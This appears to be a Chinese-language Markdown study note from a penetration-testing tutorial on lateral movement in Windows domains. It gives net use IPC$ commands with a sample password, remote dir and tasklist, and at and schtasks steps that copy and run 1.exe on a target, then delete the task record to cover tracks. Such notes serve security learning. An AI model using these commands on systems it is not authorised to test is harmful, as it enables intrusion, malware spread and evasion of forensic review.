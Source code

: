 # 5 域内横向移动分析及防御
## 5.1 常用windows远程连接和相关命令
### 5.1.1 IPC
> internet process connection,共享"命名管道"的资源,是为了实现进程间通信而开放的明明管道
+ ipc$利用条件
> 需目标开启139,445(windows2000)端口\
> 管理员开启了默认共享,如逻辑盘(c$,d$,e$等),和系统目录winnt或者windows(admin$)
```
//建立IPC连接
net use \\192.168.100.190\ipc$ "Admin12345@" /user:administrator
//查看已经建立的IPC连接
net use
```
+ 连接错误原因
> 用户名或者密码错误
> 目标没有打开ipc$默认共享
> 不能成功链接目标139,445端口
> 命令输入错误
|错误号 |说明 |
|----|----|
|5 |拒绝访问 |
|51 |windows无法找到网络路径,及网络中存在问题|
|53 |找不到网络路径,包括IP地址错误,目标未开机,目标的lanmanserver服务未启动,目标有防火墙(端口过滤)|
|67 |找不到网络名,包括lanmanworkstation服务未启动,ipc$已被删除|
|1219 |提供的凭据与已存在的凭据集冲突,例如:已经和目标建立了ipc$,需要在删除原连接后重新进行连接|
|1326 |未知名的用户名或密码错误|
|1792 |试图登录,但是网络登录服务没有启动,包括目标NetLogon服务未启动(连接域控制器时会出现此情况)|
|2242 |此用户的密码已经过期,例如目标机器设置了帐号管理策略,强制用户定期修改密码|
### 5.1.2 使用windows自带的工具获取远程主机信息
> ipc$连接成功个后可以使用
+ dir
`dir \\ip\c$`
+ tasklist
`tasklist /S ip /u 用户名 /P 密码`
### 5.1.3 计划任务
+ at
> windows2008之前
> IPC$连接成功后
```cmd
//查看目标系统时间
net time \\ip
//复制文件到远程目标主机
copy 1.exe \\ip\c$`
//创建计划任务
at \\ip 4:11PM c:\1.exe`
//清除at记录
at \\ip /delete
//下面的命令先将执行结果写入本地文件,再使用type命令远程读取
at \\ip 4:11PM cmd.exe /c "ipconfig > c:\ip.txt"
type \\ip\c$\ip.txt
```
+ schtasks
> windows vista,2008及之后的版本
> 会在远程计算机C:\WINDOWS\TASK\SCHEDLGU.TXT留下日志,若执行schtasks命令后没有回显,可以net use 然后tpye此文件查看执行结果